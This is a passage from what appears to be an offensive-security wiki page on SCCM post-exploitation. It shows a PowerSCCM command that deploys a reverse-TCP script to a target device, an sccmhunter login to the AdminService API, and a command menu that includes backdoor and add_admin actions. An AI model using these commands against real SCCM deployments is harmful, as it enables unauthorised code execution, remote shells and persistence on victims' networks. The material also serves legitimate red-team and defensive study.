 If deploying applications fails, deploying CMScripts is an alternative, which requires a "Configuration Manager" drive on the SCCM server.

This [pull request](https://github.com/PowerShellMafia/PowerSCCM/pull/6) on PowerSCCM can be used to do everything in one command. It uses the script `configurationmanager.psd1` created by Microsoft, usually installed on SCCM servers.

```powershell
# Create a CM drive if it doesn't already exist and deploy a CMScript on a target
New-CMScriptDeployement -CMDrive 'E' -ServerFQDN 'sccm.domain.local' -TargetDevice 'target' -Path '.\reverseTCP.ps1' -ScriptName 'evilScript'
```

:::


### AdminService API

It appears that, with SCCM administrative rights, it is possible to directly interact with the AdminService API, without using CMPivot, for post SCCM exploitation purpose.

::: tabs

=== UNIX-like

From UNIX-like systems, [sccmhunter](https://github.com/garrettfoster13/sccmhunter) (Python) can be used for this purpose.

```bash
sccmhunter.py admin -u "$USER" -p "$PASSWORD" -ip "site_server_IP"
```

Then, the `help` command can be typed in the opened shell to view all the CMPivot commands handled by [sccmhunter](https://github.com/garrettfoster13/sccmhunter).

```
() C:\ >> help

Documented commands (use 'help -v' for verbose/'help ' for details):

Database Commands
=================
get_collection get_device get_lastlogon get_puser get_user

Interface Commands
==================
exit interact

PostEx Commands
===============
add_admin backdoor backup delete_admin restore script

Situational Awareness Commands
==============================
administrators console_users ipconfig osinfo sessions
cat disk list_disk ps shares 
cd environment ls services software
```
